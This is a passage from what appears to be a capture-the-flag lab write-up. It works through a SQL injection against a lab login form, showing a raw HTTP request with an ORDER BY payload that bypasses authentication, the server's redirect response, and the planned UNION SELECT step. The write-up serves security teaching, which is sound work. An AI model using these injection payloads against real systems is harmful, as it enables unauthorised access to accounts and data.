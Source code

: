 Upon successful authentication, the application grabs the username of the first record from the successful query and renders it in the web application. This means that it will be impossible to replace the username with the results of arbitrary `SELECT` statements to achive the goal of the challenge. Instead, a `UNION` injection must be attempted. The union injection must also ensure that the `UNION`'d record appears first in the resultant row set.

The first step is to figure out how many columns are being requested by the original SQL statement by using incremental `ORDER BY` statements.

Injecting an `ORDER BY 2` clause causes the application to successfully authenticate.

```http
POST /challenge2/login HTTP/1.1
Host: 10.10.109.43:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://10.10.109.43:5000
DNT: 1
Connection: close
Referer: http://10.10.109.43:5000/challenge2/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+ORDER+BY+2--&password=woo
```

```html
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 239
Location: http://10.10.109.43:5000/challenge2/home
Vary: Cookie
Set-Cookie: session=.eJyrVkrOSMzJSc1LTzWKLy1OLYrPTFGyMtRBF85LzE1VslJKTMnNzFOqBQAYpRNS.YQr1EA.tI-cjOso2Yb6Dw9EbTJF5S0aQM0; HttpOnly; Path=/; SameSite=Lax
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 04 Aug 2021 20:14:08 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/challenge2/home">/challenge2/home</a>.  If not click the link.
```

Injecting an `ORDER BY 3` clause causes the application to reject authentication, even though we are bypassing authentication with the username `admin`. This indicates that the `ORDER BY 3` clause caused a SQL error, which resulted in the application not authenticating the session. This indicates that there are only two columns in the resultant row set of the original SQL query.

The next step is to determine the type of each of the columns that are in the resultant row set of the original SQL query using an incremental `UNION SELECT NULL` statement.
